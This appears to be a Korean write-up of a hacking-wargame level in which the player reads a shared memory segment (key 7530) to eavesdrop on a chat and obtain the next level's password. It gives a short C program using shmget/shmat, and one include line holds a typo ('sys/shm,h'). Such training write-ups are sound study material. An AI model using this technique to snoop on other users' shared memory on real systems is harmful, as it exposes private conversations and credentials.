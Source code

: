 level10
===
1. 힌트파일을 열어보면 다음과 같은 메세지가 작성되어 있는 것을 볼 수 있다. 
<p>두 명의 사용자가 대화방을 이용하여 비밀스런 대화를 나누고 있다. 그 대화방은 공유 메모리를 이용하여 만들어졌으며, 

key_t의 값은 7530이다. 이를 이용해 두 사람의 대화를 도청하여  level11의 권한을 얻어라

-레벨을 완료하셨다면 소스는 지우고 나가주세요.</p>
힌트 내용을 살펴보니 공유메모리에 접근해서 공유 메모리의 데이터를 읽는 문제인 것 같다.
<p>여기서 공유메모리란 여러 프로세스에서 동시에 접속할 수 있는메모리이다.</p>

2. 힌트에나온 공유메모리에 접근하기위해 다음과 같은 소스코드를 작성하고, 컴파일 한다.
```c
#include<stdio.h>
#include<sys/shm,h>
#include<sys/ipc.h>
#include<sys/types.h>

int main(){
    int shmid;
    char* shared_memory;
    shmid = shmget(7530, 1024, 0666);
    shared_memory=shmat(shmid, NULL, 0);
    printf("shared_memory is : %s\n", shared_memory);
    shmdt(shared_memory);
    return 0;
}
``` 
3. memory.c 를 실행하면 level11의 password를 알 수있다.